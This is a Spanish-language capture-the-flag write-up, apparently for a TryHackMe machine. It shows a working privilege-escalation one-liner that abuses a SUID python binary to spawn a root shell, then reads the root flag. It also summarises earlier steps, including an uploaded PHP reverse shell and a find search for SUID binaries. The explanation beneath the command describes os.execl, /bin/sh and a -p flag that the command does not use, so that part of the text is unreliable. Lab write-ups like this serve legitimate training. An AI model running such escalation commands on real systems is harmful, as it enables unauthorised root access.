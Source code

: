 SUID (Set User ID) es un permiso especial en Linux que permite a un usuario ejecutar un archivo **con los privilegios del propietario del archivo**, **incluso si no tiene permisos normalmente**.

- Si un archivo tiene el bit SUID y pertenece a root, cualquier usuario que lo ejecute lo hace **como si fuera root**.

## Exploit: obtener shell root con python SUID

Ejecutamos el siguiente comando:

```bash
$ /usr/bin/python -c 'import os; os.setuid(0); os.system("/bin/bash")'
id
uid=0(root) gid=33(www-data) groups=33(www-data)
```

### ¿Qué hace este comando?

- `import os`: carga el módulo del sistema operativo.
- `os.execl(...)`: reemplaza el proceso actual con una nueva shell (`/bin/sh`).
- El flag `-p` **mantiene los privilegios efectivos** del proceso, es decir, los de root.

Esto lanza una **shell como root** directamente.

# Root

Ahora que somos root para leer el flag utilizaremos el siguiente comando.

```bash
cat ~/root.txt
THM{pr1v1l3g3_3sc4l4t10n}
```

## Estrategias utilizadas:

### 1. **Enumeración activa**

- Desde el principio se hizo un escaneo de puertos para saber qué servicios estaban abiertos.
- Luego se visitó el sitio web principal y se identificaron posibles vulnerabilidades.
### 2. **Descubrimiento de rutas ocultas**

- Uso de herramientas como `dirsearch` para descubrir el directorio `/uploads/`, que nos permitió subir archivos.
### 3. **Ejecución remota de comandos**

- Se subió una reverse shell `.php`, que al ejecutarse, nos dio acceso remoto como **www-data**.
### 4. **Escalada de privilegios**

- Se buscó binarios con SUID usando `find`.
- Al encontrar `/usr/bin/python` con SUID, se usó una técnica documentada en **GTFOBins** para ganar acceso root.
